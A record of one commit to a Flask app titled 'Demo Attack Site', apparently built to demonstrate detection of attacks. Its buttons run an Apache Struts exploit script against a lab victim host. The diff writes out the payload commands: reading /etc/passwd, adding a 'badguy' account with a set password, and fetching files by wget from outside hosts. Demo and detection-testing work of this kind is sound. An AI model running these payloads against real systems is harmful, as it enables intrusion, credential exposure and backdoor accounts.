

Before and after one commit to ScottEnandTM/cnp_demo_flask, a Flask app: page / in a window 1280 px wide. Shown: the part 56-843 px from the top of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
added timeout to exploit.py and altered controller.py and index.html to pass dynamic variables for the target host

```diff
--- a/exploit.py
+++ b/exploit.py
@@ -35,7 +35,7 @@
         headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
         request = urllib2.Request(url, headers=headers)
 
-        page = urllib2.urlopen(url=request, context=ctx).read()
+        page = urllib2.urlopen(url=request, context=ctx, timeout=5).read()
     except httplib.IncompleteRead, e:
         page = e.partial
 
--- a/webapp/main/controllers.py
+++ b/webapp/main/controllers.py
@@ -10,7 +10,7 @@
 #
 ###################################################################################
 
-victim_host = "127.0.0.1"
+victim_host = "192.168.152.205"
 
 main_blueprint = Blueprint(
     'main',
@@ -19,11 +19,11 @@
 )
 
 def format_output(output):
-    return str(output.decode("utf-8"))
+    return str(output)
 
 @main_blueprint.route('/')
 def home():
-    return render_template('index.html')
+    return render_template('index.html', victim_host=victim_host)
 
 
 @main_blueprint.route('/ping')
@@ -33,19 +33,19 @@
         output = subprocess.check_output(["ping", "-c", "1", "8.8.8.8"])
         flash("The command ran successfully", category="success")
     except subprocess.CalledProcessError as e:
-        flash("An error occurred", category="warning")
+        flash("An error occurred", category="danger")
         output = "An error occurred:\n {e}".format(e=e)
     return render_template('struts.html', output=format_output(output))
 
 
-@main_blueprint.route('/ping_localhost')
-def ping_localhost():
+@main_blueprint.route('/ping_target')
+def ping_target():
     #output = "fake output"
     try:
-        output = subprocess.check_output(["ping", "-c", "1", "127.0.0.1"])
+        output = subprocess.check_output(["ping", "-c", "1", victim_host])
         flash("The command ran successfully", category="success")
     except subprocess.CalledProcessError as e:
-        flash("An error occurred", category="warning")
+        flash("An error occurred", category="danger")
         output = "An error occurred:\n {e}".format(e=e)
     return render_template('struts.html', output=format_output(output))
 
@@ -57,7 +57,7 @@
         output = subprocess.check_output(["/usr/bin/python", "exploit.py", "http://{victim_host}:8081/hello".format(victim_host=victim_host), "wget http://www.eicar.org/download/eicar.com -O /tmp/eicar.com"])
         flash("The command ran successfully", category="success")
     except subprocess.CalledProcessError as e:
-        flash("An error occurred", category="warning")
+        flash("An error occurred", category="danger")
         output = "An error occurred:\n {e}".format(e=e)
     return render_template('struts.html', output=format_output(output))
 
@@ -69,7 +69,7 @@
         output = subprocess.check_output(["/usr/bin/python", "exploit.py", "http://{victim_host}:8081/hello".format(victim_host=victim_host), "apk add --update openssl; wget https://secure.eicar.org/eicar.com -O /tmp/eicar.com"])
         flash("The command ran successfully", category="success")
     except subprocess.CalledProcessError as e:
-        flash("An error occurred", category="warning")
+        flash("An error occurred", category="danger")
         output = "An error occurred:\n {e}".format(e=e)
     return render_template('struts.html', output=format_output(output))
 
@@ -81,7 +81,7 @@
         output = subprocess.check_output(["/usr/bin/python", "exploit.py", "http://{victim_host}:8081/hello".format(victim_host=victim_host), "wget http://wrs21.winshipway.com -O index.html"])
         flash("The command ran successfully", category="success")
     except subprocess.CalledProcessError as e:
-        flash("An error occurred", category="warning")
+        flash("An error occurred", category="danger")
         output = "An error occurred:\n {e}".format(e=e)
     return render_template('struts.html', output=format_output(output))
 
@@ -95,7 +95,7 @@
         output = subprocess.check_output(["/usr/bin/python", "exploit.py", target, "cat /etc/passwd"])
         flash("The command ran successfully", category="success")
     except subprocess.CalledProcessError as e:
-        flash("An error occurred", category="warning")
+        flash("An error occurred", category="danger")
         output = "An error occurred:\n {e}".format(e=e)
     return render_template('struts.html', output=format_output(output))
 
@@ -108,6 +108,6 @@
         output = subprocess.check_output(["/usr/bin/python", "exploit.py", "http://{victim_host}:8081/hello".format(victim_host=victim_host), 'adduser -D badguy; echo "badguy:newpass" | chpasswd'])
         flash("The command ran successfully", category="success")
     except subprocess.CalledProcessError as e:
-        flash("An error occurred", category="warning")
+        flash("An error occurred", category="danger")
         output = "An error occurred:\n {e}".format(e=e)
     return render_template('struts.html', output=format_output(output))
--- a/webapp/templates/main/index.html
+++ b/webapp/templates/main/index.html
@@ -3,7 +3,7 @@
 
   <div class="jumbotron">
     <h1>Demo Attack Site</h1>
-      <p>Click a button to run an exploit against a target workload</p>
+    <p>Click a button to run an exploit against the target workload ({{victim_host}})</p>
   </div>
   <div>
     <div class="row">
@@ -18,7 +18,7 @@
               <td>Ping Google (8.8.8.8)</td><td> <a href="/ping" class="btn btn-primary btn-md">Execute</a> </td>
             </tr>
             <tr>
-              <td>Ping localhost (127.0.0.1)</td><td> <a href="/ping_localhost" class="btn btn-primary btn-md">Execute</a> </td>
+		    <td>Ping target workload ({{victim_host}})</td><td> <a href="/ping_target" class="btn btn-primary btn-md">Execute</a> </td>
             </tr>
             <tr>
               <td>Exploit Apache Struts Vuln and list users</td><td> <a href="/struts_list_users" class="btn btn-primary btn-md">Execute</a> </td>
```
Also changed, not shown: 1 other file.
